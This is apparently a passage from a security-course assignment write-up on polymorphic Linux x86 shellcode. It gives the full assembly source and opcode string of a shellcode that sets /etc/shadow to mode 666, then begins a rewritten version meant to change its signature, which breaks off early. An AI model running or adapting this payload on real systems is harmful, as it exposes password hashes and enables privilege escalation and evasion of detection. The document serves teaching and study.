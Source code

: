 In addition, the size of the original shellcode is 11 bytes. The size of the polymorphic shellcode is 16 bytes, meeting the size restrictions set by SecurityTube.

### Shellcode 2 - chmod 666 /etc/shadow
The author of the original shellcode is "root@thegibson". The code can be found <a href="http://shell-storm.org/shellcode/files/shellcode-566.php">here</a>.

#### Original Shellcode

```nasm
; linux/x86 chmod 666 /etc/shadow 27 bytes
; root@thegibson
; 2010-01-15

section .text
  global _start

_start:
  ; chmod("//etc/shadow", 0666);
  mov al, 15
  cdq
  push edx
  push dword 0x776f6461
  push dword 0x68732f63
  push dword 0x74652f2f
  mov ebx, esp
  mov cx, 0666o
  int 0x80
```

#### Compiling the Original Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh chmod-original
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\xb0\x0f\x99\x52\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x66\xb9\xb6\x01\xcd\x80"
[+] Size: 27 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
```

#### Polymorphic Shellcode
The polymorphic version of the shellcode I have created can be found <a href="https://github.com/skahwah/slae/blob/master/assignment6/chmod-shadow.nasm">here</a>

Below is an explanation of the changes.

```nasm
;chmod-shadow.nasm
;this changes the permissions for /etc/shadow to 666
;Linux x86
;Saniv Kawa (@skawasec)
;www.popped.io
;December 6, 2016
;40 bytes

global _start

section .text

_start:
  mov al, 8 ;arithmetic for AL register
  add al, al  ;arithmetic for AL register
  dec al ;AL now contains the correct syscall number, 15
```